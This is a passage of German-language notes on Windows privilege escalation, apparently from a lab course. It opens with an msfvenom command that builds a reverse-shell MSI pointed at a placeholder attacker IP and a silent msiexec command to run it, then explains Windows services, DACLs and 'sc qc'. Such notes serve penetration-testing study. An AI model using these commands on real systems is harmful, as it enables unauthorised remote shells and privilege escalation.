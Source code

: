 Um diese Schwachstelle ausnutzen zu können, muss beides gesetzt sein. Andernfalls ist ein Ausnutzen nicht möglich. Wenn sie gesetzt sind, kann man eine bösartige .msi-Datei mit msfvenom erzeugen, mit dem Befehl unterhalb:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi
```
Da hier eine Reverseshell aus Metasploit/msfvenom genutzt wird sollte man passender weise auch den Multihandler zum Fangen der Shell nutzen. 
Da es sich um eine Reverse Shell handelt, sollten Sie auch das entsprechend konfigurierte Metasploit Handler-Modul ausführen. Sobald die erstellte Datei übertragen wurde, kann der Installer mit dem unten stehenden Befehl ausgeführt werden, um die Reverse-Shell zu erhalten:
```
msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
```

# Ausnutzen von Fehl Konfigurierten Services

### Windows Services
  
Windows-Dienste werden durch den Service Control Manager (SCM) verwaltet. Der SCM ist ein Prozess, der den Status von Diensten nach Bedarf verwaltet, den aktuellen Status eines bestimmten Dienstes überprüft und allgemein eine Möglichkeit zur Konfiguration von Diensten bietet.
Jeder Dienst auf einem Windows-Rechner hat eine zugehörige ausführbare Datei, die vom SCM ausgeführt wird, sobald ein Dienst gestartet wird. Es ist wichtig zu beachten, dass ausführbare Dateien von Diensten spezielle Funktionen implementieren, um mit dem SCM kommunizieren zu können. Daher kann nicht jede ausführbare Datei erfolgreich als Dienst gestartet werden. Jeder Dienst gibt auch das Benutzerkonto an, unter dem der Dienst ausgeführt wird.

Um die Struktur eines Dienstes besser zu verstehen, überprüfen wir die Konfiguration des Dienstes apphostsvc mit dem Befehl
```
sc qc *Servicename*
bzw in dem Besipiel dann 
sc qc apphostsvc
```

https://i.imgur.com/hBI3eMq.png

Hier können wir in dem Beeipiel sehen, dass die zugehörige ausführbare Datei über den Parameter BINARY_PATH_NAME angegeben wird, und das Konto, das zur Ausführung des Dienstes verwendet wird, ist im Parameter SERVICE_START_NAME angegeben.

Dienste verfügen über eine Discretionary Access Control List (DACL), die unter anderem angibt, wer die Berechtigung hat, den Dienst zu starten, zu stoppen, anzuhalten, den Status abzufragen, die Konfiguration abzufragen oder den Dienst neu zu konfigurieren. Die DACL kann über Process Hacker (auf dem Desktop Ihres Rechners verfügbar) eingesehen werden:

https://imgur.com/zuQqnIE

Alle Konfigurationen der Dienste werden in der Registry unter `HKLM\SYSTEM\CurrentControlSet\Services\` gespeichert:
https://imgur.com/TqaLRxx
